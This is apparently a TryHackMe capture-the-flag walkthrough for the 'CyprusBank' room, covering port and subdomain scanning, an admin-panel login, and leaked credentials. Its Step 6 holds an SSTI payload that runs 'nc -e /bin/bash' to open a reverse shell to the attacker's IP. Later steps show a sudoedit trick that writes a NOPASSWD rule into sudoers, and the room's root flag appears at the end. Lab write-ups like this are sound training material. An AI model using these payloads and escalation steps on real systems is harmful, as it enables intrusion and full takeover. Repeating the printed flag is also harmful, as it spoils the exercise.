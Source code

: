 ```yaml
---
title: "TryHackMe - CyprusBank Walkthrough"
date: 2024-12-22
categories: [TryHackMe]
tags: [SSTI, RCE, Privilege Escalation]
image: assets/img/whiterose-banner.jpg
---
```


# TryHackMe - CyprusBank Walkthrough

---

## Initial Information
- **Username:** Olivia Cortez  
- **Password:** olivi8  

---

## Step 1: Nmap Scan

Run an Nmap scan to identify open ports and services:

```bash
sleep33@THM:~$ nmap -v -sVC -p- -oN nmap.txt $IP
```

### Results:
- **Port 22 (SSH):** OpenSSH 7.6p1 Ubuntu  
- **Port 80 (HTTP):** nginx 1.14.0 (Ubuntu)  

---

## Step 2: Configure Hosts File

Add the following to your `/etc/hosts` file:

```plaintext
sleep33@THM:~$ echo "10.246.13 cyprusbank.thm" | sudo tee -a /etc/hosts
```

---

## Step 3: Subdomain Enumeration

Enumerate subdomains using `ffuf`:

```bash
sleep33@THM:~$ ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://cyprusbank.thm/ -H "Host:FUZZ.cyprusbank.thm" -fw 1
```

### Found Subdomains:
- **www**: [200 OK]  
- **admin**: [302 Redirect]  

Add the following to your `/etc/hosts`:

```plaintext
sleep33@THM:~$ echo "10.246.13 admin.cyprusbank.thm" | sudo tee -a /etc/hosts
```

---

## Step 4: Admin Panel Access

1. Visit `http://admin.cyprusbank.thm/`.
2. Log in with:
   - **Username:** Olivia Cortez  
   - **Password:** olivi8  

---

## Step 5: Messages Exploration

Navigate through messages using the following URL format:

```bash
sleep33@THM:~$ curl http://admin.cyprusbank.thm/messages/?c=<number>
```

### Key Findings:
- **Credentials:**  
  ```plaintext
  GayleBev: p~]P@5!6;rs558:q
  ```
- **Phone Number:**  
  ```plaintext
  Tyrell Wellick: 842-029-5701
  ```

---

## Step 6: Exploiting SSTI (Server-Side Template Injection)

### Exploitation
Send a POST request to `/settings` using the following payload:

```bash
sleep33@THM:~$ curl -X POST -d "name=admin&password=admin&settings[view options][client]=true&settings[view options][escapeFunction]=1;return global.process.mainModule.constructor._load('child_process').execSync('nc -e /bin/bash 10.14.91.33 4443');" http://admin.cyprusbank.thm/settings
```

---

## Step 7: Reverse Shell Setup

Set up a listener on your local machine:

```bash
sleep33@THM:~$ nc -lvnp 4443
```

---

## Step 8: Privilege Escalation

### Check Sudo Permissions

```bash
sleep33@THM:~$ sudo -l
```

### Exploit `sudoedit`

1. Export the editor:
   ```bash
   sleep33@THM:~$ export SUDO_EDITOR='nano -- /etc/sudoers'
   ```
2. Run:
   ```bash
   sleep33@THM:~$ sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
   ```

### Modify Sudoers File:
Add the following:

```plaintext
web ALL=(ALL:ALL) NOPASSWD: ALL
```

---

## Step 9: Gain Root

Switch to the root user:

```bash
sleep33@THM:~$ sudo bash
```

Navigate to `/root` and read the flag:

```bash
sleep33@THM:~$ cd /root
sleep33@THM:~$ cat root.txt
```

**Root Flag:**  
```plaintext
THM{4nd_uR_p4ck4g3s}
```

---
